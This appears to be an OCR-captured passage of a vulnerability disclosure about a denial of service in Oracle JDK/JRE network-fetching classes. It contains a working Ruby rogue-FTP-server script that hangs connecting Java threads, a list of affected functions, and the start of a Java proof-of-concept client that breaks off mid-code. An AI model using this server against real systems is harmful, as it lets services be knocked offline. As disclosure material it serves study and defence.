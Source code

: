 ftp_server = TCPServer.new 21
 
Thread.start do
loop do
 Thread.start(ftp_server.accept) do |ftp_client|
    puts "FTP. New client connected"
    ftp_client.puts("220 ftp-server")
    counter = 0
    loop {
        req = ftp_client.gets()
        break if req.nil?
        puts "< "+req
        
        if req.include? "USER"
            ftp_client.puts("331 password")
        else
            ftp_client.puts("230 Waiting data")
            counter = counter + 1
            if counter == 6
                abort
            end
        end
    }
    puts "Aborted..." 
 end
end
end
 
loop do
    
sleep(50000)
end


When triggered, the DoS will result in a CLOSE_WAIT status on the connection between the target server and the FTP server (192.168.234.134), leaving the Java process thread stuck.



Oracle JDK/JRE Concurrency-Related Denial of Service
The vulnerable functions are:

java.io.InputStream
java.xml.ws.Service
javax.xml.validation.Schema
javax.xml.JAXBContext
java.net.JarURLConnection – The setConnectionTimeout and setReadTimeout are ignored
javax.imageio.ImageIO
Javax.swing.ImageIcon
javax.swing.text.html.StyleSheet


## java.io.InputStream Proof of Concept

```
import java.io.InputStream;
import java.net.URL;

public class RandomAccess {
 public static void main(String[] args) {
  try {
   //url = new URL ("ftp://maliciousftp:2121/test.xml");
   URL url = new URL("ftp://maliciousftp:2121/test.xml");
   InputStream inputStream = url.openStream();
   inputStream.read();
   //urlc.setReadTimeout(5000);
   //urlc.setConnectTimeout(5000); // <- this fixes the bug
  } catch (Exception e) {
```